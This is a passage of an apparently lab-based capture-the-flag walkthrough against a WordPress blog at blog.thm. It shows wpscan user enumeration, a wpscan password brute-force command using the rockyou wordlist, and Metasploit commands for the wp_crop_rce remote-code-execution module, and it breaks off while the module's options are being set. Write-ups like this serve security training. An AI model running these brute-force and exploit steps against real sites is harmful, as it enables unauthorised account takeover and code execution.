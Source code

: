 ```
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)
 ...
```

Okay! We have two users: Billy, and his mom Karen. Let's use `wpscan` again to brute-force a password.

```
wpscan --url http://blog.thm --passwords /usr/share/wordlists/rockyou.txt --usernames 'bjoel,kwheel'
```

```console
...
[SUCCESS] - kwheel / REDACTED
```

Billy used a strong password; but his mom didn't. Good news! If you log into the admin panel with Karen's account, you'll find she has author privileges.

## Exploitation

Fire up Metasploit! We're going to launch some exploits.

```
msfconsole
```

The exploit we want is called _multi/http/wp_crop_rce_.

```
use multi/http/wp_crop_rce
```

The options you'll want to set are `USERNAME` to `kwheel`, `PASSWORD` to Karen's password, and `RHOSTS` to your target.

```
set USERNAME kwheel
```
